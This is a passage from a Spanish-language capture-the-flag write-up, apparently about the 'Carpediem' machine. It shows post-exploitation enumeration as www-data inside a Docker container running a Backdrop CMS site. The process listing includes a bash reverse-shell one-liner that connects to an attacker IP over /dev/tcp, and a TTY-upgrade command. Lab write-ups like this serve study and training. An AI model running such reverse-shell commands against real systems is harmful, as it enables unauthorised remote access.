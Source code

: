 ![imagen22](/assets/images/Carpediem/carpediem22.png)

Vemos que nos encontramos dentro de otro contenedor.

```shel
www-data@90c7f522b842:/var/www/html/backdrop/modules/url_unpublish$ whoami
whoami
www-data
www-data@90c7f522b842:/var/www/html/backdrop/modules/url_unpublish$ ifconfig
ifconfig
bash: ifconfig: command not found
www-data@90c7f522b842:/var/www/html/backdrop/modules/url_unpublish$ hostname -I
<ww/html/backdrop/modules/url_unpublish$ hostname -I                
172.17.0.2 
```
Dentro pudimos ver que root está ejecutando un arhivo, dentro del archivo encontramos lo siguiente.

```shell
www-data@90c7f522b842:/$ ps -eo command 
COMMAND
/bin/bash /root/docker-entrypoint.sh
/usr/sbin/vsftpd
/bin/sh /usr/bin/mysqld_safe
/usr/sbin/mariadbd --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=mysql --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/run/mysqld/mysqld
logger -t mysqld -p daemon error
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/cron -P
/bin/bash
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
sh -c bash -c "bash -i &> /dev/tcp/10.10.14.42/443 0>&1"
bash -c bash -i &> /dev/tcp/10.10.14.42/443 0>&1
bash -i
script /dev/null -c bash
sh -c bash
bash
/usr/sbin/CRON -P
```
